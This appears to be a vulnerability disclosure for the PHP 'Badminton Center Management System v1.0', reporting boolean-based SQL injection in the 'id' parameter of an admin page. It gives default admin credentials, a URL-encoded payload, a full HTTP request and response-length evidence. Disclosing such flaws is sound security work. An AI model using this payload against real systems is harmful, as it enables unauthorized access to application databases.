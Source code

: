 # Badminton Center Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15318/badminton-center-management-system-phpoop-free-source-code.html

Current database name: bcms_db,length is 7

Vulnerability File: /bcms/admin/?page=service_transactions/manage_service_transaction&id=

Vulnerability location: /bcms/admin/?page=service_transactions/manage_service_transaction&id=,id

[+] Payload: /bcms/admin/?page=service_transactions/manage_service_transaction&id=6%27%20and%20length(database())%20=7--+ // Leak place ---> id


```sql
GET /bcms/admin/?page=service_transactions/manage_service_transaction&id=6%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close
```

When length (database ()) = 6, Content-Length: 33199
![image](https://user-images.githubusercontent.com/54017627/170618523-d98f6f02-c7eb-45ea-95d2-e4bb64b44b47.png)

![image](https://user-images.githubusercontent.com/54017627/170618611-cc44ce0e-0b2e-4c20-bbf2-c703e5795a6e.png)

When length (database ()) = 7, Content-Length: 35681

![image](https://user-images.githubusercontent.com/54017627/170618457-e647d723-2715-47cc-b570-05acef8560a2.png)

![image](https://user-images.githubusercontent.com/54017627/170618588-51aec657-c556-4c21-bd15-8b5e72ed24e0.png)
